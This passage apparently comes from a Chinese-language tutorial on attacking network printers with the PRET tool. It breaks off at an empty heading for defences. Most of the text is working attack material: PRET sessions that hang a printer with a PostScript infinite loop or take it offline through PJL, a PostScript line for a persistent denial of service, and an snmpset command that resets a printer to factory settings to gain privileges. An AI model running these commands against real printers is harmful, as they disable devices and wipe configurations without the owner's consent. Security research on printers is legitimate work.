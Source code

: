 PREF实现

```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hang
Warning: This command causes an infinite loop rendering the
device useless until manual restart. Press CTRL+C to abort.
Executing PostScript infinite loop in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
```

可以实现该攻击的方法

```
USB Driver or cable
Port 9100 printing
Cross-site printing
```

实现永久DoS攻击的方法

```
true 0 start job
```

PJL实现

```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> offline "MESSAGE TO DSIPLAY"
Warning: Taking the printer offline will prevent yourself and others
from printing or re-connecting to the device. Press CTRL+C to abort.
Taking printer offline in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
```

## 特权升级

### 恢复出厂设置

#### SNMP方法

```
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```

可以实施攻击的攻击者

```
任何能够给161/udp发送网络包的用户
```

防护方法
